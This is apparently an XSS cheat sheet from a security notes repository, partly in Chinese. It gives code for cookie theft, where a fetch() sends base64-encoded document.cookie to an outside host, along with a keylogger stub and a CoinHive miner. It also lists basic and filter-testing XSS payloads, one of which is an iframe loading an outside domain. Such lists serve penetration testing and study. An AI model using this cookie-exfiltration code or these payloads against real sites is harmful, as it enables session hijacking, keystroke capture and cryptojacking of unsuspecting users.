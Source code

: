         * execScript
## mXSS, UXSS, XSSI, Electron XSS to RCE


# Exploit Advantage
## Steal cookie
```javascript
fetch("http://wildfoo.tw/?x="+btoa(document.cookie));
```
## Key logger
```javascript
document.onkeypress = function(e) {
    console.log(e.key);
}
```
## Mining
```javascript
var miner = new CoinHive.User('SITE_KEY', 'WildfootW');
miner.start();
```
* 截圖
* 動態生成釣魚頁面
* 持久化 XSS - 安裝 Service Worker


# Payloads
[tomnomnom - alert.js](https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309)
## Basic Payload

- `<script>alert(1)</script>`
- `<svg/onload=alert(1)>`
- `<img src=# onerror=alert(1)>`
- `<a href="javascript:alert(1)">g</a>`
- `<input type="text" value="g" onmouseover="alert(1)" />`
- `<iframe src="javascript:alert(1)"></iframe>`
- `<iframe sRc=\/wIldFoO.tW>`

## Testing

- `<script>alert(1)</script>`
- `'"><script>alert(1)</script>`
- `<img/src=@ onerror=alert(1)/>`
- `'"><img/src=@ onerror=alert(1)/>`
- `' onmouseover=alert(1) x='`
- `" onmouseover=alert(1) x="`
- ``` `onmouseover=alert(1) x=` ```
- `javascript:alert(1)//`
